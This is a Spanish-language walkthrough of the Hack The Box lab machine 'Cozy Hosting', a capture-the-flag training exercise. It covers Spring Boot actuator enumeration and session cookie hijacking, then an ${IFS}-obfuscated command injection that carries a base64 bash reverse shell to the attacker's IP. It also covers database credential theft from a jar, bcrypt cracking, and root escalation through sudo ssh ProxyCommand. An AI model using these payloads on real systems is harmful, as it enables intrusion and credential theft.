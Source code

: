 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/hack-the-box/cozy-hosting/"}
---
```



---
# Información general

| OS               | Linux                           |
| ---------------- | ------------------------------- |
| Desarrollado por | Pablo Flores(Ge0), Amal & Mitia |
| Dificultad       | Fácil                           |
| Liberación       | 26 Febrero 2024                 |
| Puntos           | 20                              |

---
# Enumeración

## Puertos
Se realiza un escaneo de puertos y servicios a la IP de la máquina usando nmap con el comando:
```sh
sudo nmap -sCV -vvv -A -T5 -p- 10.10.11.230
```
Se encuentran abiertos los puertos 22 y 80.
Se realiza un escaneo enfocado a estos puertos de nuevo con nmap:
```sh
sudo nmap -sCV -A -p22,80 10.10.11.230
```

**22/tcp open  ssh**     syn-ack ttl 63 **OpenSSH 8.9p1 Ubuntu 3ubuntu0.3** (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
	|   256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
	|ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
**80/tcp open  http**    syn-ack ttl 63 **nginx 1.18.0** (**Ubuntu**)
	|http-title: Cozy Hosting - Home
	|http-server-header: nginx/1.18.0 (Ubuntu)
	|http-favicon: Unknown favicon MD5: 72A61F8058A9468D57C3017158769B1F
	|http-methods:
	|**Supported Methods: GET HEAD OPTIONS**

Encontramos información como la versión del ssh, el puerto 80 usa nginx
## Puerto 80
Se realiza un escaneo al puerto 80 usando "whatweb".
```sh
whatweb 10.10.11.230
```
La parte que interesa es:
RedirectLocation[**http://cozyhosting.htb**]
Por lo tanto hay que agregar la página al archivo "/etc/hosts" usando el comando:
```sh
sudo echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```

Al realizar fuzzing no se encontró información relevante.

Al visualizar el error 404 en una página errónea, la página muestra información útil.
![Pasted image 20240224150700.png|700](/img/user/Pasted%20image%2020240224150700.png)
*This application has no explicit mapping for /error, so you are seeing this as a fallback.*
El texto de error, sirve para buscar información acerca del mismo en la web.

Se encuentra que el error está asociado a una tecnología llamada **spring boot**.

Conociendo la tecnología, se realiza un fuzzing más específico a la página usando wfuzz.
```sh
wfuzz -c --hc=403,404 -t 4 -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt -u http://cozyhosting.htb/FUZZ
```

Se encuentran varios subdirectorios:
"actuator/env", "actuator", "actuator/env/lang", "actuator/health", "actuator/env/path", "**actuator/sessions**", "actuator/mappings", "actuator/beans"
# Ganando acceso
## Reemplazo de cookie
Se accede a "actuator/sessions", en el que se encuentra información relevante de un usuario y su cookie de sessión:
![Pasted image 20240224151423.png|700](/img/user/Pasted%20image%2020240224151423.png)

Al entrar a la página cozyhosting.htb/login
Se presenta una página de inicio de sesión, al rellenar los campos de uduario y contraseña con cualquier texto y reemplazar la cookie de la página por la encontrada anteriormente de "kanderson", se recarga la página.
![Pasted image 20240224164342.png|700](/img/user/Pasted%20image%2020240224164342.png)
Esto permite el acceso a la página de administrador: cozihosting.htb/admin
En la cual, se encuentran dos campos, "Hostname" y "Username"
![Pasted image 20240224174614.png|700](/img/user/Pasted%20image%2020240224174614.png)
## Capturando la solicitud
Al rellenar la información con cualquier texto (partyhack en este caso), se procede a capturar el la request con burpsuite y posteriormente enviarla al repeater.
Luego de enviar la solicitud analizamos la respuesta del servidor y al parecer está ejecutando algo relacionado con ssh.
![Pasted image 20240224175147.png|700](/img/user/Pasted%20image%2020240224175147.png)
Intenta ejecutar el comando "ssh" usando como los datos proporcionados: partyhack en ambos casos.
## Probando PING
Teniendo esa información podemos intentar ejecutar comandos en el sistema, usando, en este caso un "ping" a nuestra máquina con reemplazando la línea 15 de la solicitud:
```sh
host=10.10.14.13&username=;ping${IFS}-c${IFS}4${IFS}10.10.14.13;
```

No sin antes haber ejejctado "tcpdump" para poner en escucha con el protocolo ICMP:
```sh
sudo tcpdump ip proto \\icmp -i tun0
```
Ya en escucha, a ejecutar el ping se debería recibirlo como a continuación:
![Pasted image 20240224180231.png|700](/img/user/Pasted%20image%2020240224180231.png)
## Ejecutando la reverse shell
Se pone en escucha a la máquina local usando netcat en el puerrto 4747 con lo siguiente:
```sh
rlwrap nc -lnvp 4747
```

Se reemplaza la línea con lo siguiente:
```sh
host=10.10.14.13&username=;echo${IFS%??}"YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjEzLzQ3NDcgMD4mMSAg"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```
Y se envía la solicitud, no sin antes aplicar un url-encode para asegurarse que no haya problemas al anviar los datos.

Si todo se realizó correctamente obtendremos la revershell como el usuario "app"
![Screenshot_20240224_184639.png](/img/user/Screenshot_20240224_184639.png)

Los usuarios que son de interés son `josh` y `root`, por lo que lo tendremos en cuenta para después.
![Pasted image 20240226222427.png](/img/user/Pasted%20image%2020240226222427.png)

Al listar los documentos podemos ver un archivo "cloudhosting-0.0.1.jar.jar" que podría contener información relevante.
Para traer ese archivo a nuestra máquina local. Desde la máquina en la que acabamos de ganar acceso montamos un servidor http con python:
```python
python3 -m http.server 4848
```

En nuestra máquina lo traemos con un wget.
```sh
wget 10.10.11.230:4848/cloudhosting-0.0.1.jar
```

Una vez el archivo esté en el directorio local, descomprimirlo con:
```sh
unzip cloudhosting-0.0.1.jar
```

Acceder a la carpeta /BOOT-INF/classes y leer el archivo "application.properties"
```sh
cat application.properties
```
Encontramos las siguientes credenciales, nombre de la base de datos  y que es una base de datos "postgresql".
spring.datasource.url=jdbc:**postgresql**://localhost:5432/**cozyhosting**
spring.datasource.username=**postgres**
spring.datasource.password=**Vg&nvzAQ7XxR**

Ingresamos a la base de datos con los siguientes datos e ingresamos la contraseña cuando se requiera.
```sh
psql -h 127.0.0.1 -U postgres -d cozyhosting
```

Listamos las tablas
![Pasted image 20240226215038.png|400](/img/user/Pasted%20image%2020240226215038.png)

Mostramos el contenido de las columnas de la tabla `user`
![Pasted image 20240226215454.png|700](/img/user/Pasted%20image%2020240226215454.png)

Teniendo los hashes de las contraseñas, podemos usar fuerza bruta para descifrar el de el usuario `admin` que nos interesa más. Para esto se puede usar `johntheripper`
```sh
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```
El tipo de hash es bcrypt.
![Pasted image 20240226221711.png|700](/img/user/Pasted%20image%2020240226221711.png)

Ingresamos mediante `ssh` usando la contraseña y el usuario `josh`
```sh
ssh josh@10.10.11.230 -p22
```

Y obtenemos la flag de user:
![Pasted image 20240226223120.png|400](/img/user/Pasted%20image%2020240226223120.png)
# Escalada de privilegios
Probamos si ejecutar algún comando como root:
```sh
sudo -l
```

Y vemos que se podemos ejecutar ssh como root.
Por lo tanto escalamos privilegios usando ssh de la siguiente manera:
```sh
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![Pasted image 20240226231132.png|400](/img/user/Pasted%20image%2020240226231132.png)